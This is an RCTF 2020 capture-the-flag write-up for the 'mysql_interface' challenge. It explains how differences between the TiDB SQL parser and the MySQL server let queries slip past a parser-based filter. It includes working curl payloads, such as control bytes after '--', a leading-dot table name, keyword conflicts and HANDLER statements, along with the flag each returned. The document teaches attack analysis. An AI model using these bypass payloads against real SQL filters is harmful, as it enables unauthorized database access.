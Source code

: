 # mysql_interface

[中文版本](README_zh.md)

## Description

https://mysql-interface.rctf2020.rois.io

```go
import (
    "github.com/pingcap/parser"                     // v3.1.2-0.20200507065358-a5eade012146+incompatible
    _ "github.com/pingcap/tidb/types/parser_driver" // v1.1.0-beta.0.20200520024639-0414aa53c912
)

var isForbidden = [256]bool{}

const forbidden = "\x00\t\n\v\f\r`~!@#$%^&*()_=[]{}\\|:;'\"/?<>,\xa0"

func init() {
    for i := 0; i < len(forbidden); i++ {
        isForbidden[forbidden[i]] = true
    }
}

func allow(payload string) bool {
    if len(payload) < 3 || len(payload) > 128 {
        return false
    }
    for i := 0; i < len(payload); i++ {
        if isForbidden[payload[i]] {
            return false
        }
    }
    if _, _, err := parser.New().Parse(payload, "", ""); err != nil {
        return true
    }
    return false
}

// do query...
```

## Solution

The challenge receives SQL with restricted characters audited by a SQL parser. However, There are many ways to solve this challenge, whether in lexer or parser.

### Break the lexer


According to the source code of [mysql-server lexer](https://github.com/mysql/mysql-server/blob/5.7/sql/sql_lex.cc#L1424), it allows '-- ' style line comments, where '--' can be followed by a character marked as `_MY_SPC` or `_MY_CTR`.

If you read the parser code, you will find that this parser uses [unicode.IsSpace()](https://pkg.go.dev/unicode?tab=doc#IsSpace) to identify spaces, which leads to inconsistency with official mysql server lexer, and we can exploit that.

| Character                                             | MySQL Server       | Parser       |
| :---------------------------------------------------- | ------------------ | ------------ |
| 0x01 - 0x08, 0x15 - 0x19                              | _MY_CTR            | Unrecognized |
| 0x14                                                  | _MY_SPC            | Unrecognized |
| 0x09 (\t), 0x10 (\n), 0x11 (\v), 0x12 (\f), 0x13 (\r) | _MY_CTR or _MY_SPC | Not Allowed  |
| 0x20 (space)                                          | _MY_SPC            | Space        |
| 0x85                                                  | Unrecognized       | Space        |
| 0xa0                                                  | Unrecognized       | Not Allowed  |

The table above lists some inconsistencies. If you want to explore more, this might be helpful:

- [Character Definition Arrays](https://dev.mysql.com/doc/refman/5.7/en/character-arrays.html)
- [MySQL Server Source Code Charsets](https://github.com/mysql/mysql-server/tree/5.7/sql/share/charsets)

Now it's quite clear to solve this challenge, here are some examples:

1. `\x01` is not recognized as space in parser

   ```shell
   $ echo "select flag from flag--\x01"
   select flag from flag--
   $ curl https://mysql-interface.rctf2020.rois.io --data "sql=select%20flag%20from%20flag--%01&pow=000"
   RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
   ```

2. `\x85` is not recognized as space in mysql-server

```shell
$ echo "select flag from flag --\x85tbl where --\x85tbl.flag+1"
select flag from flag --�tbl where --�tbl.flag+1
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=select%20flag%20from%20flag%20%85rois%20where%20--%85rois.flag%2b1&pow=000"
RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
```

### Break the parser

Besides the lexer, there are also many flaws in the parser. By reading the source yacc file of [parser](https://github.com/pingcap/parser/blob/master/parser.y) and [mysql server](https://github.com/mysql/mysql-server/blob/5.7/sql/sql_yacc.yy), you can easily find some quite significant differences between the parser and mysql server.

#### Table Factor

The official mysql server allows tables to be used as follows:

```yacc
// copied from https://github.com/mysql/mysql-server/blob/5.7/sql/sql_yacc.yy#L13059

table_ident:
    ident
    | ident '.' ident
    | '.' ident
    ;
```

But the parser has some differences:

```yacc
// copied from https://github.com/pingcap/parser/blob/master/parser.y#L6765

TableName:
    Identifier
    |	Identifier '.' Identifier
    ;

```

The difference between the two takes us directly to the flag.

```shell
$ echo "select flag from .flag"
select flag from .flag
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=select%20flag%20from%20.flag&pow=000"
RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
```

#### Keyword Conflicts

When we analyze the difference between the two parsers, Keyword Conlicts are always the easiest to find, and always exist.

Since there are many ways to find keyword conflicts, I will only present one as an example. 

The properties of tokens are quite different between mysql server and the parser. You can find the tokens of the parser [here](https://github.com/pingcap/parser/blob/master/misc.go#L138) which has a lot of keywords. I feed the tokens into the parser and get the following payloads that causes the parser error.

- "select flag EXCEPT from flag"
- "select flag NVARCHAR from flag"
- "select flag CURRENT_ROLE from flag"
- "select flag PRE_SPLIT_REGIONS from flag"
- "select flag ROW from flag"
- "select flag ERROR from flag"
- "select flag PACK_KEYS from flag"
- "select flag SHARD_ROW_ID_BITS from flag"

```shell
$ echo "select flag EXCEPT from flag"
select flag EXCEPT from flag
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=select%20flag%20EXCEPT%20from%20flag&pow=000"
RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
```

### Unexpected

During the game, Team DUBHE used the [HANDLER Statement](https://dev.mysql.com/doc/refman/5.7/en/handler.html) to successfully break the parser, which I didn't expected at all, and get third blood of this challenge! 

```shell
$ echo "handler flag open" && echo "handler flag read first" && echo "handler flag close"
handler flag open
handler flag read first
handler flag close
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=handler%20flag%20open&pow=000"
Empty set
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=handler%20flag%20read%20first&pow=000"
RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=handler%20flag%29close&pow=000"
Empty set
```

Moreover, There are more flaws in the parser...

## Thank you for your participation, see you next year @ RCTF2021!